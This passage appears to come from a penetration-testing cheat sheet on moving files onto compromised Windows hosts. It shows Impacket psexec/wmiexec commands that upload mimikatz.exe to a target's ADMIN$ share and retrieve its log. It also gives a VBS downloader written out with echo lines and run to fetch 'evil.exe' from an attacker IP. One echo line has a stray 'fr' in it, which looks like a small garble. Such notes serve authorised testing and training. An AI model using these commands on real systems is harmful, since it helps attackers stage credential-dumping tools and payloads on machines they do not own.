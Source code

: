 ### Impacket

psexec and wmiexec are shipped with built in feature for file transfer. **Note**: By default whether you upload (**lput**) or download (**lget**) a file, it'll be writte in `C:\Windows` path. Uploading mimikatz.exe to the target machine:

```
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```

Downloading mimikatz.log:

```
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```

### VBS

{% code overflow="wrap" fullWidth="true" %}
```vba
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs fr echo ts.Close >> wget.vbs
C:\> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```
{% endcode %}

### Misc
